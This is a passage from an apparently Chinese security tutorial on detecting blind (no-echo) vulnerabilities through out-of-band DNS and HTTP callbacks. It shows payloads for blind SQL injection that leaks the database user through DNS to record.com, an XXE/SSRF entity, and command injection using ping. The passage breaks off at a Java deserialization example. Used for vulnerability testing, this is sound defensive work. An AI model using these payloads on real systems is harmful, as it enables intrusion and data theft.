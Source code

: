 通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

![](http://drops.javaweb.org/uploads/images/bee7bf83b806d253342df30a04bbbb8f06e8b9d6.jpg)

#### ii. SQLi（无回显）

SQL 注入中无回显的情况是很常见的，但是有了 "Data Retrieval over DNS" 这种技术的话一切都变得简单了，前提是目标环境符合要求。[《HawkEye Log/Dns 在Sql注入中的应用》](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)这篇文章提供了一些常见数据库中使用 "Data Retrieval over DNS" 技术进行盲注的 Payloads。

```
payload: "... load_file(concat('\\\\',user(),'.record.com\\blindsqli'))
condition: {*.record.com LOG} in DNS queries LOGs

```

只要目标系统环境符合要求并且执行了注入的命令，那么就会去解析预先设置好的域名，同时通过监控平台能够拿到返回的数据。

![](http://drops.javaweb.org/uploads/images/2fcdf8c6ce312bb7e512e43a824dfb9fcd963b55.jpg)

#### iii. SSRF（无回显）

根据上面两个例子，熟悉 SSRF 的同学肯定也是知道怎么玩了：

```
payload: "... <!ENTITY test SYSTEM "http://record.com/?blindssrf"> ..."
condition: {http://record.com/?blindssrf LOG} in HTTP requests LOGs

```

#### iv. RCE（无回显）

命令执行/命令注入这个得好好说一下，我相信很多同学都懂得在命令执行无法回显的时候借用类似`python -m SimpleHTTPServer`这样的环境，采用回连的检测机制来实时监控访问日志。*nix 系统环境下一般是使用`curl`命令或者`wget`命令，而 windows 系统环境就没有这么方便的命令去直接访问一个链接，我之前常用的是`ftp`命令和 PowerShell 中的文件下载来访问日志服务器。现在，有了一个比较通用的做法同时兼顾 *nix 和 windows 平台，那就是`ping`命令，当 ping 一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。

```
payload: "... | ping xxflag.record.com ..."
condition: {xxflag.record.com LOG} in DNS queries LOGs

```

![](http://drops.javaweb.org/uploads/images/f4a9075ed9eea85caeedd743b0ba87b2dce115f4.jpg)

通过这几个 "间接判断" 的示例，相信大家也大概了解了在漏洞无回显的情况下如何进行扫描和检测了。更多的无回显 Payloads 可以通过[http://ceye.io/payloads](http://ceye.io/payloads)进行查看。（勿喷）

0x03 应急实战举例
===========

* * *

原理和例子扯了这么多，也该上上实际的扫描检测案例了。

### Java 反序列化（通用性举例，ftp/ping）

